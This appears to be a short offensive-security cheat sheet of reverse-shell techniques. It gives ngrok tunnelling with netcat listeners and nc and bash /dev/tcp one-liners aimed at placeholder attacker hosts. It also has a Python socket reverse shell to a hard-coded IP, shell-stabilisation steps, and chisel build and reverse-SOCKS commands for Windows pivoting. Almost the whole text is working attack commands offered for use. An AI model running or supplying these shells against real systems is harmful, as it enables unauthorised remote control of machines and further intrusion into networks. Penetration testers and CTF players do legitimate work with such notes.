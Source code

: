 # Multiple choices
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md

# ngrok as a proxy
```bash
# On attacker (term1)
ngrok tcp 12345

# On attacker (term2)
nc -lvp 12345

# On target, use your reverse shell payload on the ngrok tunnel target
nc NGROK_PUBLIC_IP NGROK_PORT -e /bin/sh
bash -c "bash -i >& /dev/tcp/NGROK_PUBLIC_IP/NGROK_PORT 0>&1"
```

# Using python
## Create shell
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.11.33.78",33456));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'

## Stabilize shell (can go up, get history, ...)
python3 -c 'import pty; pty.spawn("/bin/bash")'
ctrl-z
stty raw -echo ; fg
export TERM=xterm

# Web servers on Unix
See /usr/share/webshell to have ready to use webshells, update MY_IP and LISTENING_PORT
```bash
nc -lvnp LISTENING_PORT
```

# Connected on windows (well, maybe not)
https://github.com/jpillora/chisel

```bash
Create binaries
go mod vendor
go build -ldflags "-s -w" # build Linux binary:
env GOOS=windows GOARCH=amd64 go build -o chisel-x64.exe -ldflags "-s -w" # build Windows binary
```

```bash
# Listening
/opt/chisel/chisel server -p LISTENING_PORT --reverse
```

```sh
# Powershell command
chisel-x64.exe client MY_IP:LISTENING_PORT R:socks
```

http://github.com/certat/intelmq-docker.git